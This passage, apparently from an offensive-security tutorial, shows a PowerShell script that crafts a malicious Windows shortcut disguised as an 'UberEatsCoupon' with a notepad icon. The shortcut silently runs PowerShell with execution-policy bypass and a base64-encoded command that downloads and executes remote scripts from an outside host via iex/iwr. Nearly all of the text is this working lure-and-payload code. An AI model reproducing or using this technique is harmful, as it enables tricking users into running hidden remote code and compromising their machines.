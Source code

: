 Now we continue to craft our LNK file

```bash
$doordash = 'iex (iwr -UseBasicParsing http://192.168.20.131:8888/google.txt);(iwr -usebasicparsing http://192.168.20.131:8888/facebookTest.ps1)|IEX'

$bytes = [System.Text.Encoding]::Unicode.GetBytes($doordash)
$encodedCommand = [Convert]::ToBase64String($bytes)
$obj = New-object -comobject wscript.shell
$link = $obj.createshortcut("D:\Users\kkyun\Desktop\UberEatsCoupon.lnk")
$link.windowstyle = "7"
$link.targetpath = "C:\windows\system32\cmd.exe"
$link.iconlocation = "C:\windows\system32\notepad.exe"
$link.arguments = "/c powershell -Nop -ep bypass -w hidden -EncodedCommand  $($encodedCommand)"
$link.save()
```



